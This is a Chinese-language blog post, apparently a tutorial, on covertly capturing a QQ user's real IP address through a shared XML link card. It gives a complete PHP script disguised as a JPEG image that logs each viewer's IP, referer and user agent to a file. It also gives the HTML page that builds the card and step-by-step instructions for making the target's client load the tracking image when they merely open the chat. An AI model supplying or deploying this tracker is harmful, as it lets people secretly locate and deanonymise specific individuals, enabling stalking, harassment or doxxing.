 ```yaml
---
title: 利用QQ XML卡片获取真实IP
date: 2024-11-11 13:44:24
categories: [技术, 安全, 开源情报]
tags: [PHP]
---
```

**前言：**QQ提供了一个卡片功能：在QQ内打开一个网页后，点右上角分享可以把此网页分享到任意群聊或好友。这种分享和直接发链接的区别是，对方在聊天框看到的不是链接文本，而是一张包含了网站缩略图、站点标题和摘要的xml卡片。分享后，对方一旦点开聊天窗口窥屏，这个卡片（还有它身上的图片）就会被显示出来，等于此人访问了站点上的一张图片。基于此原理，我们有希望在对方完全不点击链接的情况下获取对方IP地址。

**目录：**

1. [攻击环境搭建](#1)
2. [攻击方法](#2)
3. [Q&A](#3)

**一、攻击环境搭建**

这里使用的攻击环境如下：

* **Ubuntu** 22.04 **VPS**
* **Apache** 2.4.52 (Ubuntu)
* **PHP** 8.1.2-1ubuntu2.18

为了创建一张QQ卡片，我们需要一个http网站来存放攻击脚本。方便起见，这里假设你已经有了一个配置好的Apache网页服务器。

首先在网站的根目录内创建攻击脚本iptest.php如下：

PHP

```
<?php 

    //防注入函数
    function filter_dangerous_words($str){
        $str = str_replace("'", "‘", $str);
        $str = str_replace("\"", "“", $str);
        $str = str_replace("<", "《", $str);
        $str = str_replace(">", "》", $str);
        return $str;
    }
    
    //获取真实IP函数
    function getIP() {
        if (getenv('HTTP_CLIENT_IP')) {
        $ip = getenv('HTTP_CLIENT_IP');
        }
        elseif (getenv('HTTP_X_FORWARDED_FOR')) {
        $ip = getenv('HTTP_X_FORWARDED_FOR');
        }
        elseif (getenv('HTTP_X_FORWARDED')) {
        $ip = getenv('HTTP_X_FORWARDED');
        }
        elseif (getenv('HTTP_FORWARDED_FOR')) {
        $ip = getenv('HTTP_FORWARDED_FOR');
 
        }
        elseif (getenv('HTTP_FORWARDED')) {
        $ip = getenv('HTTP_FORWARDED');
        }
        else {
        $ip = $_SERVER['REMOTE_ADDR'];
        }
        return $ip;
    }
 
    //生成输出内容
    $ip = getIP();
    @$referer = $_SERVER['HTTP_REFERER']."\r\n";
    $ua = $_SERVER['HTTP_USER_AGENT']."\r\r";
    date_default_timezone_set("Asia/Shanghai");
    $date_ = date("Y.m.d,h:i:sa")."\r\n";
    
    //输出为hack.txt文件
    $hack = 'date: '.$date_.'ip:'.$ip."\r\n".'referer: '.$referer.'ua: '.$ua;
    $hack = filter_dangerous_words($hack);
    $op = fopen('hack.txt','a+');
    fwrite($op,$hack);
    fclose($op);
	  
	  //将此php文件伪装为一张jpg图片
	  //这样php返回的图片就会是同目录下的icon.jpg文件。
	$im = imagecreatefromjpeg("icon.jpg");
    header('Content-Type: image/jpeg');
    imagejpeg($im);
    imagedestroy($im);
 ?>
```

然后，为了生成卡片，我们还需要制作一个简单的网页iptest.html（与iptest.php、icon.jpg这两个文件处于同一个目录下），该网页的内容就是卡片上的内容：

HTML

```
<!DOCTYPE html>
<html>
<head>
	<meta itemprop="name" content="XML卡片标题" />
	<meta itemprop="description" content="XML卡片描述" />
	<meta itemprop="image" content="文件路径，本例中为iptest.php?abcdefg" />
	<title>标题</title>
</head>
<body>
</body>
</html>
```

这里需要注意的是，iptest.php文件链接需要在其后带一串无效参数才能正常转换为短链接，此处用了abcdefg。因为qq分享机制的原因，导致直接分享出去的xml卡片会先将图片地址转换为腾讯的图床，所以探测链接不会生效。

在两个文件上传服务器之后，确保再上传一张命名为icon.jpg的图片文件就配置完毕了。

**二、攻击方法**

出于方便，攻击时不采用QQ插件发送方式，而采用直接分享生成的XML卡片。步骤如下：

1. 首先qq内打开iptest.html文件的链接，点击右上角，此时还未选择分享方式，未获取到ip；
2. 然后点击“好友”，到达选择好友界面，此时云端生成xml卡片，iptest.php文件链接被转换为腾讯短链，获取到了短链服务器的ip；
3. 选择好友，确认是否发送，本机预览消息，此时获取到本机ip；
4. 点击发送，聊天记录漫游到服务器，此时获取到腾讯服务器ip；
5. 目标点开聊天记录，自动读取了xml卡片，此时获取到目标ip。

上面说明获取顺序的时候，是按操作顺序写的，实际上获取到的服务器ip记录时间不一定按照你的操作顺序记录。但因为目标是最后一个收到的，所以最后一个基本就是目标ip。不排除特殊情况，需要随机应变。鉴于单次攻击会获取到多个ip，记得每一次探测后删除hack.txt文件或改名，以免下一次使用时搞混。

**三、Q&A**

**Q：**配置好攻击环境后能反复使用，以在hack.txt中记录多个目标ip吗？

**A：**不能。攻击链接是一次性的。

首先是所有的链接都会受到缓存的限制，所以一个iptest.php链接只能对一个目标生效一次，可以通过修改后面的无效参数（刚才的abcdef）来更新缓存。

其次就是某些时候iptest.html文件链接在qq内打开时会存在该页面本身被缓存的情况，导致iptest.php文件链接不会更新，缓存自然不会更新，所以无法成功获取ip，这种情况下hack.txt不会记录ip，所以比较好判断。可以通过更改iptest.html文件名来更新页面的缓存。
